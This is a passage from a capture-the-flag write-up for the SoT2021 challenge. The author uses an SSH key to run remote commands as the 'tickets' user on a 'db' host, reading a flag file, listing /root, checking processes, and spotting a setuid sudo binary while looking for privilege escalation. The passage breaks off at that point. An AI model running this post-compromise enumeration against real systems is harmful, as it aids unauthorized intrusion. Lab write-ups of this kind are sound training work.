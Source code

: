 I use this to cat out the flag

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db cat flag.txt`

```
SoT2021{64c38b43cc44a66312f3e4611db437bc}
```

And that's another flag.

# Flag 17: Filesystem #4

Following the pattern from [Flag 15](#flag-15-filesystem-2) I figure this is probably also a root flag, so I check `/root`

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ls -la /root`

```
total 16
drwxr-xr-x 1 root root  22 Aug 27 10:24 .
drwxr-xr-x 1 root root  62 Aug 31 08:56 ..
-rw-r--r-- 1 root root 570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root 148 Aug 17  2015 .profile
-rw-r--r-- 1 root root 227 Aug 17 11:30 .wget-hsts
-rw------- 1 root root  41 Aug 27 10:19 flag.txt
```

I check running processes

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ps aux`

```
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mysql        1  0.2 40.8 1342240 411580 ?      Ssl  02:22   1:22 mysqld
root         8  0.0  0.2  15852  2256 ?        Ss   02:22   0:00 /usr/sbin/sshd
sshd        99  0.0  0.0      0     0 ?        Z    11:36   0:00 [sshd] <defunct>
sshd       101  0.0  0.0      0     0 ?        Z    11:38   0:00 [sshd] <defunct>
tickets    108  0.0  0.0      0     0 ?        Z    11:39   0:00 [sshd] <defunct>
tickets    116  0.0  0.0      0     0 ?        Z    11:40   0:00 [sshd] <defunct>
sshd       119  0.0  0.0      0     0 ?        Z    11:42   0:00 [sshd] <defunct>
tickets    126  0.0  0.0      0     0 ?        Z    11:43   0:00 [sshd] <defunct>
tickets    134  0.0  0.0      0     0 ?        Z    11:43   0:00 [sshd] <defunct>
tickets    142  0.0  0.0      0     0 ?        Z    11:43   0:00 [sshd] <defunct>
tickets    150  0.0  0.0      0     0 ?        Z    11:46   0:00 [sshd] <defunct>
root       152  0.0  0.7  16784  7872 ?        Ss   11:47   0:00 sshd: tickets [priv]
tickets    158  0.0  0.4  16784  4916 ?        S    11:47   0:00 sshd: tickets@notty
tickets    159  0.0  0.2   7640  2636 ?        Rs   11:47   0:00 ps aux
```

Installed programs?

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ls /usr/bin`

```
...
-rwsr-xr-x 1 root root    154K Jan 20  2021 sudo
...
```
